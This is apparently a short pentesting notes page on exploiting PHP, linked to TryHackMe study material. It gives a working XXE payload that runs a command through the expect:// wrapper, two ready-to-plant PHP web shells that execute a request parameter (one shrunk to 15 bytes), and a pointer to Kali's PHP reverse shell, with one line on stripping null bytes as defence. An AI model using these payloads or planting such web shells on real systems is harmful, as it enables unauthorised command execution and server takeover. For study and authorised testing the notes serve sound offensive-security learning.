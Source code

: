 # Exploiting PHP

## RCE via XXE

RCE through [XEE](xml-external-entity-attacks.md) is apparently rare, but can be achieved via the PHP expect module.

```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY xxerce SYSTEM "expect://id">]>
<root>&xxerce;</root>
```

## The Poison Null Byte

PHP string parsing is susceptible to [the poison null byte](poison-null-byte.md).

The best way to defend against these attacks is to simply sanitize strings by explicitly removing any null bytes they contain.

```php
$sanitized_string = str_replace(chr(0), '', $original_string);  
```

## Web-Based RCE

```php
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
```

A slightly spruced-up version of this is available on Kali Linux as `/usr/share/webshells/php/simple-backdoor.php`.

On space-constrained systems, you can [compact this down to just 15 bytes](https://twitter.com/podalirius_/status/1488921781637365771):

```php
<?=`$_GET[1]`?>
```

## Reverse Shell

Check out `/usr/share/webshells/php/php-reverse-shell.php` on Kali Linux. Note that this only works on UNIX-like systems.

## References

* [TryHackMe: Complete Beginner](tryhackme-complete-beginner.md)
* [Exploitation: XML External Entity (XXE) Injection](https://depthsecurity.com/blog/exploitation-xml-external-entity-xxe-injection)
* [Common PHP attacks: Poison Null Byte](https://defendtheweb.net/article/common-php-attacks-poison-null-byte)

- - - -

👤 Nathan Acks  
📅 February 3, 2022
